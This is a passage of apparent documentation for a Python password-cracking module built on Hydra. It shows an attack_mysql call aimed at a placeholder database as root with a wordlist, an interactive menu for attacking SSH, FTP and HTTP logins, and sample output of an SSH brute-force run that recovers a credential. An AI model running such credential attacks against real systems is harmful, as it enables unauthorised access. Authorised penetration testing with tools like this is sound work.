 **Form parameters format:**
- `^USER^` - Placeholder for username
- `^PASS^` - Placeholder for password
- `:` - Separator
- After `:` - Failure message to detect

### MySQL Attack

```python
from modules.password_module import attack_mysql

credentials = attack_mysql(
    target="db.example.com",
    username="root",
    password_list="/usr/share/wordlists/passwords.txt",
    port=3306
)
```

### Interactive Mode

```python
from modules.password_module import run_password_module

# Launches interactive menu
run_password_module()
```

**Menu flow:**
1. Select service type (SSH, FTP, HTTP, etc.)
2. Enter target IP/hostname
3. Choose username mode (single or list)
4. Provide password wordlist
5. Enter service-specific parameters
6. Monitor attack in real-time
7. View results in Rich table
8. Save to database
9. Optional export to file

## Output Formats

### Console Output (Real-time)

```
🔐 SSH Password Attack on 192.168.1.100:22
ℹ Starting Hydra attack on 192.168.1.100:ssh
ℹ Command: hydra -l admin -P passwords.txt -t 4 -V -f 192.168.1.100 ssh
⚠ This may take a while depending on wordlist size...

[ATTEMPT] target 192.168.1.100 - login "admin" - pass "123456"
[ATTEMPT] target 192.168.1.100 - login "admin" - pass "password"
[ATTEMPT] target 192.168.1.100 - login "admin" - pass "admin"
[22][ssh] host: 192.168.1.100   login: admin   password: secret123
✅ SUCCESS: admin:secret123 on ssh@192.168.1.100
🎉 Found 1 valid credential(s)!
```
